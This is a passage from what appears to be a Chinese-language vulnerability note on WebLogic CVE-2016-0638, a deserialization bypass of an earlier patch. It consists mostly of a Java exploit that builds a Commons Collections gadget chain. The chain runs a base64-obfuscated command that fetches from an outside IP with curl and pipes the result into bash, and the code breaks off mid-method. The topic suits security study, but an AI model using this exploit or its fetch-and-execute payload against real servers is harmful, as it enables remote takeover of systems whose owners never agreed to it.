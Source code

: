 **注**：MsgAbbrevInputStream用于反序列化RMI请求，将请求参数和返回结果转换为Java对象。InboundMsgAbbrev用于处理入站RMI请求，检查和验证请求的合法性，并保证请求的安全性和可靠性

##### 这里是对CVE-2015-4852补丁的一个绕过，这个漏洞主要是找到了个黑名单之外的类`weblogic.jms.common.StreamMessageImpl`

很容易找到这里的反序列化点，那么就是找谁调用了`readExternal`
![image-20240619161846259](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619161846259.png)

#### exp

```java
package com.supeream;
import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import weblogic.jms.common.StreamMessageImpl;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CVE_2016_0638 {
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public byte[] getObject() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"bash -c {echo,Y3VybCBodHRwOi8vMTkyLjE2OC4yMzYuMTMwOjQ0NDQ=}|{base64,-d}|{bash,-i}"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

        final Map testMap = new HashMap();

        Map evilMap = (Map) Proxy.newProxyInstance(testMap.getClass().getClassLoader(), testMap.getClass().getInterfaces(), secondInvocationHandler);
        final Constructor<?> ctor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
```